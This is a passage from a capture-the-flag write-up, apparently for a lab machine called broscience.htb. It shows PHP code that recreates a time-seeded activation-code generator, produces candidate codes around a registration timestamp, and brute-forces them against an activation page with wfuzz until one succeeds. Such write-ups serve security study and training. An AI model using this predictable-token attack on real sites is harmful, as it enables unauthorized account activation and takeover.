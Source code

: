     <?php
    echo strtotime("Thu, 30 Mar 2023 21:10:46 GMT") . '\n';
    ?>
    
    
    
    oxdf@hacky$ php generate_codes.php 
    1680210646
    

I’ll pull in the `generate_activation_code` function collected earlier,
modifying it to take an argument, and seeding `srand` with that argument
instead of `time()`:

    
    
    <?php
    
    function generate_activation_code($t) {
        $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
        srand($t);
        $activation_code = "";
        for ($i = 0; $i < 32; $i++) {
            $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
        }
        return $activation_code;
    }
    
    $start = strtotime("Thu, 30 Mar 2023 21:10:46 GMT");
    for ($t = $start - 30; $t <= $start + 30; $t++) {
        echo generate_activation_code($t) . "\n";
    }
    
    ?>
    

This will print activation codes from 30 seconds before and 30 seconds after
the timestamp of when I registered (more than necessary).

#### Fuzz

I’ll save these to a file, and then run them through `wfuzz` to try them all:

    
    
    oxdf@hacky$ php generate_codes.php > codes.txt
    oxdf@hacky$ wfuzz -u https://broscience.htb/activate.php?code=FUZZ -w codes.txt --hs Invalid
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: https://broscience.htb/activate.php?code=FUZZ
    Total requests: 61
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000031:   200        27 L     65 W       1251 Ch     "33bddQwMdlOCPl5Ex2sA5NRsRS8akH0l"
    